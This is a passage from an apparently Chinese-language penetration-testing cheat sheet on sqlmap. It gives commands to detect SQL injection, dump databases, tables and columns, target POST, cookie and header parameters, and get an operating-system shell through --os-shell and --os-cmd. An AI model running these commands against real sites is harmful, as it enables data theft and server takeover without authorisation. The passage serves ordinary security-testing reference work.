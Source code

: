 ## 31. sqlmap
#sqlmap
-   检测等级 --level(1-5) 逐级增强

### 31.1 GET注入

``` shell
python ./sqlmap.py -u "url" #检测
python ./sqlmap.py -u "url" --dbs #列出数据库
python ./sqlmap.py -u "url" --table #表
python ./sqlmap.py -u "url" --columns -T "tbname"
python ./sqlmap.py -u "url" --dump -T "tbname" -C "cname" #爆字段 
```

### 31.2 POST注入

``` shell
--data "id=1"
```

### 31.3 COOKIE注入

``` shell
--cookie "" --level 3
```

### 31.4 属性头注入

``` shell
--refere "" --level 3
--headers "" --level 3
```

### 31.5 星号指定优先级

``` shell
python ./sqlmap.py -u "?id=1&passwd=2*" #优先检测passwd参数
```

### 31.6 命令执行

```shell
python ./sqlmap.py -u "url" --os-shell #系统交互shell
python ./sqlmap.py -u "url" --os-cmd=ipconfig #
```

### 31.7 自定义数据

```shell
-r "./request.txt"
```

### 31.8 注入的类型
